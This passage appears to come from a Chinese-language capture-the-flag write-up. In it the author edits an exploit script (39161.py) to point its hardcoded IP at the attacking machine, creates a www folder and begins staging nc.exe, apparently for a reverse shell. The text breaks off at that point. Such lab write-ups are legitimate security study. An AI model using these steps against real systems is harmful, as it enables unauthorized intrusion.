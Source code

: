 ![Screenshot-2019-10-08-at-21.03.04](img/da9ab9d3fafeba9648c2d60da13e358d.png)

然后我使用这个命令来修改文件

```
nano 39161.py
```

并将硬编码的 IP 地址更改为攻击机器的地址——在本例中是我的机器

```
ip_addr = "10.10.14.27" #local IP address
```

![Screenshot-2019-10-08-at-21.08.49](img/59f99e858ab606bee9cdd94363ae4a91.png)

我创建了一个 **www** 文件夹

![Screenshot-2019-10-08-at-21.13.27](img/e9e6e721a61a7530c93719b91ca9ac65.png)

我抄完了 nc.exe 的
